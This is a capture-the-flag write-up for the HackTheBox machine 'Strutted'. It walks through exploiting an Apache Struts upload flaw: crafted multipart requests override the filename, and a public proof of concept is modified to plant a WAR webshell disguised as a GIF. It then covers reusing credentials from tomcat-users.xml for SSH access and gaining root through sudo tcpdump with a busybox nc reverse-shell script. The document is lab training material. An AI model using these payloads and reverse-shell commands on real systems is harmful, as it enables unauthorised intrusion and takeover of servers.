 # Writeup: Strutted
### Difficulty: Medium
### OS: Linux

As the first step, i did the nmap scan.\
![img](ss/nmap.png)\
We can see port 22 and 80. Lets access the http service first.\
![img](ss/error.png)\
lets add the `strutted.htb` to `/etc/hosts` with `nano /etc/hosts` and add this line at the end of it.\
![img](ss/hosts.png)\
Now we can take a peek into the site. We can see an upload form which is almost always vulnerable in HTB boxes.\
![img](ss/site.png)\
However, what caught my eye is the bottom text which says we can download and see how the platform is configured. Lets download it and unzip it.\
![img](ss/unzip.png)\
While looking through the config files, i saw the `struts` version in the `pom.xml` file.\
![img](ss/pom.png)\
And since the box name is `strutted`,I figured its main point is `struts`.\
So I googled for any exploits and saw that theres multiple CVEs.\
![img](ss/struts.png)\
But before that, I wanted to check out the upload form.\
So I uploaded a gif and caught its request with `burpsuite` to take a look at it.\
![img](ss/testburp.png)\
Here we can see that the gif data is being sent with POST. \
I forwarded the request for now.\
And we got the gif i uploaded here.\
![img](ss/gif.png)\
When i used the copy link button, it didnt work. So i had to inpect it and saw that the gif is indeed being uploaded to the machine and we can view from that.\
![img](ss/path.png)\
So lets make a dummy gif first, to check if we can change the filename during the upload, and get a possible exploit. For that, run\
`touch tst.gif` then add 
```
GIF89a;

testgif
```
#### I put 84 here which was a mistake, the correct version is 89. I corrected it while uploading later on. The correct format is"GIF89a"\
![img](ss/echo.png)\
Upload the the gif and capture the request.\
Lets modify the request\
![img](ss/tstburp.png)\
First, we need to change `"upload"` to `"Upload"`.
```
------WebKitFormBoundarycr7UE9hKBNcK6ZcO
Content-Disposition: form-data; name="Upload"; filename="tst.gif"
Content-Type: image/gif
```
Then we should add the header to change the filename in the upload process.\
For that, add the following to at the end of the request before the closing of boundary.
```
------WebKitFormBoundarycr7UE9hKBNCk6ZcO
Content-Disposition: form-data; name="uploadFileName";

tst.txt

```
![img](ss/upldfilenme.png)\
Final request will be similar to this.
```
POST / HTTP/1.1
Host: strutted.htb
Content-Length: 287
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://strutted.htb
Content-Type: multipart/form-data; boundary=----WebKitFormBoundarycr7UE9hKBNcK6ZcO
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/137.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://strutted.htb/
Accept-Encoding: gzip, deflate, br
Accept-Language: en-US,en;q=0.9
Cookie: JSESSIONID=D3586AF452D828D8F641635A65FE2C18
Connection: keep-alive

------WebKitFormBoundarycr7UE9hKBNcK6ZcO
Content-Disposition: form-data; name="Upload"; filename="tst.gif"
Content-Type: image/gif

GIF89a;
testgif

------WebKitFormBoundarycr7UE9hKBNCk6ZcO
Content-Disposition: form-data; name="uploadFileName";

tst.txt
------WebKitFormBoundarycr7UE9hKBNcK6ZcO--

```
Now lets forward the request.\
#### REMINDER: "GIF89a is the right one"
![img](ss/succsfl.png)\
Nice, the upload was successful. Now lets check the file format.\
![img](ss/txtpath.png)\
Boom! We can see that the file format was changed.\
Now lets search for the CVE that we noticed earlier. I used some dorking so that we can find some easy PoC to use.\
And ofcourse its RCE thats always juicy.\
![img](ss/rce.png)\
I found this nice PoC and so I cloned it into my attackbox.\
![img](ss/git.png)\
Install the requirements if needed.\
However, we need to change some things in the exploit.py to work because of the upload restrictions and the parents in the upload file path.(upload/TIMESTAMP/file)\
So lets change the `NO_OF_PARENTS_IN_PATH` to 5
```python
NUMBER_OF_PARENTS_IN_PATH = 5
```
And add a line to add `b"GIF89a` infront of the upload file to bypass the checking.\
And change the `arbitrary.txt` to gif, and change the format to `"image/gif"`.
```python
war_file_content = open(NAME_OF_WEBSHELL_WAR, "rb").read()
war_file_content = b"GIF89a;" + war_file_content

files = {
	HTTP_UPLOAD_PARAM_NAME.capitalize(): ("arbitrary.gif", war_file_content, "image/gif"),
	HTTP_UPLOAD_PARAM_NAME+"FileName": war_location
}
```
I used `nano exploit.py`\
![img](ss/nano.png)\
Then, with that set, time for exploitation.\
I ran the exploit with\
`python3 exploit.py --url http://strutted.htb/upload.action`\
![img](ss/whoami.png)\
And I got the webshell successfully. So i went and checked who the users in this machine is and found that my user is `james`\
![img](ss/etc.png)\
Now lets look for the creds for `james`\
![img](ss/pass.png)\
And inside the `tomcat-users.xml`, I found a password for `admin`. \
![img](ss/admin.png)\
I tried that password for `james` in ssh and BOOM!.\
We got in...\
![img](ss/ssh.png)
### Privilege escalation
With our foothold as `james`, lets check his sudo permissions.\
![img](ss/sudo.png)\
And we can see that he can run tcpdump as root.\
Now with that, lets check [GTFOBins](http://gtfobins.github.io) and check the tcpdump section.\
![img](ss/gtfo.png)\
From this we can understand that with the following commands, we can get a rootshell.
```bash
echo 'busybox nc 10.10.16.20 9999 -e /bin/bash' > pwn
chmod +x pwn
```
And on another shell, start a listener.
```bash
nc -nvlp 9999
```
And now lets run the exploit.
```bash
sudo tcpdump -ln -i lo -w /dev/null -W 1 -G 1 -z ./pwn -Z root
```
![img](ss/rootshell.png)\
With that, we have successfully rooted the box and we can `cat` the flags.